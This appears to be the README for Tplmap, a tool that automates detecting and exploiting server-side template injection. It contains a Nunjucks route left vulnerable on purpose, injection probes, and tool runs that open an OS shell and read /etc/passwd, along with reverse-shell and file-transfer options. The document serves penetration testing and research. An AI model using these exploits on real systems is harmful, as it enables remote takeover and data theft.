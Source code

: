 Tplmap
======

Tplmap (short for _Template Mapper_) automates the detection and exploitation of Server-Side Template Injection (SSTI) vulnerabilities to break-out the sandbox and achieve remote command execution on the remote operating system. 

The tool can be used as a testbed to conduct researches on the SSTI vulnerability class and as offensive security tool in penetration test engagements.

The sandbox break-out techniques came from public [researches][4] as James Kett's [Server-Side Template Injection: RCE For The Modern Web App][1] and other original piece of [works][2] to [extend][3] this tool capabilities.

It achieves full compromise in rendered context, several code context and blind injection scenarios. It also exploits _eval()_-like injections in several languages and generic unsandboxed template engines.

Server-Side Template Injection
------------------------------

Assume that you are auditing a web application that uses user-provided values as template to generate a dynamic web page. This example in JavaScript uses [Nunjucks][5] template engine in an unsafe way.

```javascript
var connect = require('connect');
var http = require('http');
var url = require('url');
var nunjucks = require('nunjucks');

var app = connect();
app.use('/page', function(req, res){
  if(req.url) {
    var url_parts = url.parse(req.url, true);
    var name = url_parts.query.name;
    
    // SSTI VULNERABILITY
    // The user controllable `name` GET parameter 
    // is concatenated to the template string instead 
    // of being passed as `context` argument. 
    rendered = nunjucks.renderString(
      str = 'Hello ' + name + '!'
    );
    
    res.end(rendered);
  }
});
```

The page reflects the `name` parameter value, and discloses its SSTI nature when returns basic operation results computed at runtime.

```
$ curl -g 'http://www.target.com/page?name=John'
Hello John!
$ curl -g 'http://www.target.com/page?name={{7*7}}'
Hello 49!
```

Exploitation
------------

Tplmap supports the detection and exploitation of SSTI to get access to the underlying file system and operating system.

```
$ ./tplmap.py -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.2
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Mako plugin is testing rendering with tag '${*}'
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
...
[+] Nunjucks plugin is testing rendering with tag '{{*}}'
[+] Nunjucks plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  GET parameter: name
  Engine: Nunjucks
  Injection: {{*}}
  Context: text
  OS: linux
  Technique: render
  Capabilities:

   Shell command execution: yes 
   Bind and reverse shell: yes 
   File write: yes 
   File read: yes 
   Code evaluation: yes, javascript code

[+] Rerun tplmap providing one of the following options:

   --os-shell                 Run shell on the target
   --os-cmd                   Execute shell commands
   --bind-shell PORT          Connect to a shell bind to a target port
   --reverse-shell HOST PORT  Send a shell back to the attacker's port
   --upload LOCAL REMOTE      Upload files to the server
   --download REMOTE LOCAL    Download remote files
```

Use `--os-shell` option to compromise the target in a fully automated way.

```
$ ./tplmap.py --os-shell -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.2
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Run commands on the operating system.

linux $ whoami
www
linux $ head /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
```

Supported template engines
--------------------------

Tplmap can exploit SSTI vulnerabilities in over 15 template engines, unsandboxed engines and generic _eval()_-like injections. Blind injections and injections in code contexts are supported.

| Template engine    | Remote Command Execution |  Blind RCE | Code evaluation | File read | File write |
|----------------------|-------|-------------------|-----------------|-----------|------------|
| Mako                 | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Jinja2               | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Python (generic)     | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Nunjucks             | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Jade                 | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| doT                  | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Marko                | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| JavaScript (generic) | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Dust (<= dustjs-helpers@1.5.0) | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Smarty (unsecured)   | ✓ |  ✓                | PHP             |  ✓        |  ✓         |
| PHP (generic)        | ✓ |  ✓                | PHP             |  ✓        |  ✓         |
| Freemarker           | ✓ |  ✓                | ×               |  ✓        |  ✓         |
| Velocity             | ✓ |  ✓                | ×               |  ✓        |  ✓         |
| Twig                 | × | ×                 | ×               | ×         | ×          |
| Smarty (secured)     | × | ×                 | ×               | ×         | ×          |
| Dust (> dustjs-helpers@1.5.0)  | × | ×                 | ×               | ×         | ×          |

[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[2]: https://github.com/epinna/tplmap/issues/9
[3]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[4]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
[5]: https://mozilla.github.io/nunjucks/
